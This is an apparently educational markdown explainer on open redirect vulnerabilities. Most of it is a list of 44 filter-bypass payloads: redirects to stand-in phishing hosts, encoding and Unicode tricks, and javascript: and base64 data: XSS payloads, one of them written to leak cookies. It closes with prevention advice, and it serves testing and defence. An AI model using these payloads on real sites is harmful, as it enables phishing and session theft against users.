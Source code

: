 # Open redirect vulnerability

## What is an open redirect?

- It is a vulnerability that occurs when a website redirects users to a URL specified via a parameter without validating or restricting it.
- This allows an attacker to redirect users to malicious websites using the vulnerable site as a trusted bridge.

### Practical example

Imagine you have a link like this:  
`https://example.com/redirect?url=https://evil.com`  

If the website redirects the user directly to the value of the `url` parameter without checking its safety, then it's vulnerable to Open Redirect.

---

## How is it exploited?

1. The attacker crafts a URL like:  
   `https://example.com/redirect?url=https://phishing.com`
2. The victim clicks the link because it appears to be from a trusted domain (example.com).
3. The website redirects the victim to the malicious site (phishing.com).
4. The victim may enter sensitive information (e.g., credentials), which the attacker then captures.

---

## How can you bypass security filters?

1. `https://example.com/redirect?url=//phishing.com`  
   - Double slashes make it load as an absolute external URL.

2. `https://example.com/redirect?url=////phishing.com`  
   - Repeated slashes can bypass naive filters.

3. `https://example.com/redirect?url=javascript:confirm()`  
   - Triggers JavaScript execution directly.

4. `https://example.com/redirect?url=www.whitelisted.com.phishing.com`  
   - Subdomain trick to appear similar to a whitelisted domain.

5. `https://example.com/redirect?url=//phishing%E3%80%82com`  
   - Unicode dot (`。`) instead of a regular dot.

6. `https://example.com/redirect?url=https://phishing%E3%80%82com`  
   - Unicode dot in a fully qualified URL.

7. `https://example.com/redirect?url=//phishing%00.com`  
   - Null byte can bypass weak validations.

8. `https://example.com/redirect?url=whitelisted.com&url=phishing.com`  
   - Some servers read only the last repeated parameter.

9. `http://www.example.com@phishing.com`  
   - User-info section tricks users visually.

10. `https://www.example.com//phishing.com`  
    - Double slashes in the path to bypass filters.

11. `https://www.example.com%09.phishing.com`  
    - Using a tab character to confuse parsers.

12. `https://www.example.com%252e.phishing.com`  
    - Double-encoded dot to bypass validations.

13. `https://trusted.com@evil.com`  
    - Misleads with a trusted domain in the user-info part.

14. `https://evil.com/trusted.com`  
    - Looks like trusted domain is a directory.

15. `https://trusted.com%2F@evil.com`  
    - Encoded slash to trick filters.

16. `https://trusted.com%00.evil.com`  
    - Null byte to terminate strings.

17. `https://evil.com?x=https://trusted.com`  
    - Legit domain passed as a parameter, but base URL is malicious.

18. `https://evil.com/trusted-site.com/`  
    - Legit domain as a directory.

19. `https://evil.com@trusted-site.com/`  
    - Trusted domain after `@` misleading the user.

20. `https://example.com?url=https:evil.com`  
    - Missing slash in protocol to trick filters.

21. `https://example.com?url=javascript:alert(1)`  
    - Simple JavaScript injection.

22. `https://example.com?url=javascript%3Aalert(1)`  
    - URL-encoded JavaScript payload.

23. `https://example.com?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==`  
    - Base64-encoded script execution.

24. `https://example.com?url=//google%E3%80%82com`  
    - Unicode dot for Google domain.

25. `https://example.com?url=//google%00.com`  
    - Null byte after a trusted domain.

26. `https://evil.c℀.example.com`  
    - Unicode character to split trusted domain visually.

27. `http://example.com／phishing.com`  
    - Fullwidth slash to trick parsers.

28. `https://example.com?url=javascript://%250Aalert(1)`  
    - Encoded newline in JavaScript scheme.

29. `https://example.com?url=javascript://%250Aalert(1)//?1`  
    - More complex JS bypass using comments.

30. `https://example.com?url=javascript://%250A1?alert(1):0`  
    - JS logic trick in the payload.

31. `https://example.com?url=%09Jav%09ascript:alert(document.domain)`  
    - Tab characters to bypass filters.

32. `https://example.com?url=javascript://%250Alert(document.location=document.cookie)`  
    - Inline JS payload to leak cookies.

33. `https://example.com?url=/%09/javascript:alert(1);`  
    - Using tabs in path to bypass basic filters.

34. `https://example.com?url=//%5cjavascript:alert(1);`  
    - Backslash encoding to trick parsers.

35. `https://example.com?url=/javascript:alert(1);`  
    - Direct JS payload in path.

36. `https://example.com?url=\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)`  
    - Obfuscated JS to trick regex filters.

37. `https://example.com?url=javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)`  
    - Capitalized JS scheme + line breaks.

38. `https://example.com?url=javascript:confirm(1)`  
    - Alternative JS function for testing.

39. `https://example.com?url=javascript://whitelisted.com//%0d%0aalert(1);`  
    - Mixing whitelisted domain and JS tricks.

40. `https://example.com?url=javascript://whitelisted.com?%a0alert(1)`  
    - Using non-breaking space to bypass.

41. `https://example.com?url=/x:1/:///%01javascript:alert(document.cookie)/`  
    - Complex nested trick with JS.

42. `https://example.com?url=";alert(0);//`  
    - Basic JS payload in parameter.

43. `https://example.com?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==`  
    - Another base64 encoded script execution.

44. `https://example.com?url=javascript:prompt(1)`  
    - Using `prompt` instead of `alert` to trick simple filters.

---

## Why is it dangerous?

- It can be used in phishing attacks.
- It breaks the trust users have in a legitimate site.
- It allows attackers to mask the real destination of a malicious link.

---

## How to prevent it?

- Filter redirect URLs: Only allow redirects to internal URLs or a trusted whitelist of domains.
- Validate the redirect target: Make sure the redirect URL is safe and expected.
- Avoid passing raw URLs in parameters: Use encrypted values or short-lived tokens instead.
